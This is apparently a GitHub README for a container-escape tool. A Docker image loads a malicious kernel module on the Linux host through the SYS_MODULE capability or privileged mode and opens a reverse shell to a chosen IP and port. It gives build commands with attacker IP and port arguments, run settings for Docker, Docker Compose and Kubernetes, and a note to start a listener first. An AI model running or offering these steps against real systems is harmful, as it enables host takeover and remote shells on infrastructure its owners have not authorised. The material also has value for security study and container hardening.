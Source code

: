 # Container Breakout Using Kernel Modules

Containers are extremely useful for rapidly deploying applications. Instead of running an entire operating system on top of the host (like a virtual machine), containers share the host's resources. This makes escaping a container slightly easier than VM if it lacks proper security controls. If the managed platform is Docker or Kubernetes, this breakout will be effective. Part of the shared resources between container and the host OS, is the host's kernel modules. A privileged container can install, remove, and modify kernel modules on the host from within a container. This project exploits that capability to create a reverse from the local host to a remote server by installing a malicious kernel module.

![Diagram of the breakout](https://github.com/SudoYummy/kernel_breakout/blob/main/images/diagram.png)

## Requirements
This breakout does not work in all use cases. **Two** things must be present for this exploit to function:
* The host system must be Linux.
* The container must be started with **SYS_MODULE** capability enabled. The container can also be ran as "privileged".

# Usage

## Building the Image
The default build of the image will create a reverse shell on 127.0.0.1:4444. Be sure all piecies of the project are in the same directory as the Dockerfile.
```
docker build -t imagename /path/to/Dockerfile
```

To specify an IP address and port ensure that the image is built with the respective arguments.
```
docker build -t imagename --build-arg IP_ADDRESS=1.1.1.1 --build-arg PORT_NUMBER=23 /path/to/Dockerfile
```
## Running the image
The image can be ran with any container deployment platform either inline, or in the configuration file. Be sure to have a listener activated before running the container.

#### Docker
```
docker run --cap-add=SYS_MODULE imagename
```

#### Docker Compose
Include the following in the config:
```
cap_add:
- SYS_MODULE
```
#### Kubernetes
Include the following in the container specification:
```
spec:
    containers:
        image: imagename
        securityContext:
            capabilities:
                add:
                - SYS_MODULE
```

# References
For further reading and sources check the following pages:
* [Docker Prvilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#privileged)
* [Linux Capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)
* [Technical write-up on how to escape an existing privileged container](https://www.cyberark.com/resources/threat-research-blog/how-i-hacked-play-with-docker-and-remotely-ran-code-on-the-host)
* [3 Docker Breakout Techniques](https://www.cybereason.com/blog/container-escape-all-you-need-is-cap-capabilities)
